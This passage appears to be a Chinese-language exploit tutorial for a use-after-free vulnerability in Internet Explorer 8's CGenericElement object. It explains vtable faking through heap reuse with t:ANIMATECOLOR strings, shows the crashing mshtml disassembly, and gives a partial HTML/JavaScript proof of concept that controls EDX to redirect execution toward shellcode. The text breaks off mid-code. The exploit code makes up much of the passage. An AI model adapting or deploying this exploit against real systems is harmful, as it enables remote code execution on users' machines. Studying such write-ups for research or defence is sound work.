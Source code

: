 call [eax + 偏移]

通过这么一大串的对对象虚函数调用过程的描述, 你应该大致猜到了 对于 UAF 漏洞利用的 通用的方式, 没错就是 ,在 存在漏洞的对象释放后 ,使用另外一种对象 来占用刚刚被释放的内存块, 我们称之为 “占坑”, 之后在用这个对象来修改虚表指针的值 来伪造一个虚表, 最后再让漏洞对象调用他的一个虚函数,我们可以通过先前伪造的虚表 ,将此处调用的函数的指针设为 我们 shellcode 的地址, 那么这样,漏洞对象一调用函数,就会跳到 shellcode 中来执行.

下面回到这个漏洞来, 通过对漏洞的调试分析,可以弄清楚存在 UAF 漏洞的 CgnericElement 对象的大小为0x4c  , 那么如果我们要利用这个漏洞,就需要在漏洞对象被释放后,通过申请相同大小的内存来使用这块 “邪恶” 的内存, 将其开头4字节伪造成我们可控数据的地址处,来进一步伪造虚表.在 IE8中恰好有一个 t:ANIMATECOLO 标签,通过利用该标签我们可以实现上面的目标. t:ANIMATECOLO标签值是一个用分号分隔的字符串,分号的个数决定对象的大小.对象的每个元素都是一个指针,指向分隔出来的字符串.应为漏洞对象的大小为 0x4c所以这里需要包含 0x4c/4 =0x13 个分号的字符串.通过分析崩溃时的情景,可以发现对象是在调用偏移虚表 0x70的地方的函数时,造成了崩溃.



```
mshtml!CElement::Doc:
 6586c815 8b01            mov     eax,dword ptr [ecx]
 6586c817 8b5070        mov     edx,dword ptr [eax+70h]
 6586c81a ffd2              call    edx
因此我们在代码中使用 0x70 /4 精确控制 edx .具体看POC中的注释.
Poc:
&lt;!doctype html&gt;
&lt;HTML XMLNS:t ="urn:schemas-microsoft-com:time"&gt;
&lt;head&gt;
&lt;meta&gt;
 &lt;?IMPORT namespace="t" implementation="#default#time2"&gt;
&lt;/meta&gt;
&lt;script&gt;
function helloWorld()
`{`
 animvalues = "";  
 // mshtml!CElement::Doc:
 // 6586c815 8b01            mov     eax,dword ptr [ecx]
 // 6586c817 8b5070          mov     edx,dword ptr [eax+70h]
 // 6586c81a ffd2            call    edx
 for (i=0; i &lt;= 0x70/4; i++) `{`
 // t:ANIMATECOLOR 标签第一个对象用于覆盖虚表指针
 // 由于索引虚函数时，需要偏移0x70，所以这里采用0x70/4去精确控制edx值
 if (i == 0x70/4) `{`
 //animvalues += unescape("%u5ed5%u77c1");    
 animvalues += unescape("%u4141%u4141");   // 控制edx=0x41414141
 `}`
 else `{`
 animvalues += unescape("%u4242%u4242");   // 0x42424242
 `}` 
 `}`
 for(i = 0; i &lt; 13; i++) `{`
 // t:ANIMATECOLOR 标签值是一个用分号分隔的字符串，分号的个数决定对象的大小，
 // 对象的每个元素都是一个指针，指向分号分隔出来的字符串
 // 漏洞对象CGnericElement大小0x4c，所以这里需要包含0x4c/4=13个分号的字符串
 animvalues += ";red"; 
 `}`
 f0 = document.createElement('span');
 document.body.appendChild(f0);
 f1 = document.createElement('span');
 document.body.appendChild(f1);
 f2 = document.createElement('span');
 document.body.appendChild(f2);
 document.body.contentEditable="true";
 f2.appendChild(document.createElement('datalist'));
 f1.appendChild(document.createElement('span'));
 f1.appendChild(document.createElement('table'));
 try`{`
 f0.offsetParent=null;
 `}`catch(e) `{``}`
 f2.innerHTML="";
 f0.appendChild(document.createElement('hr'));
```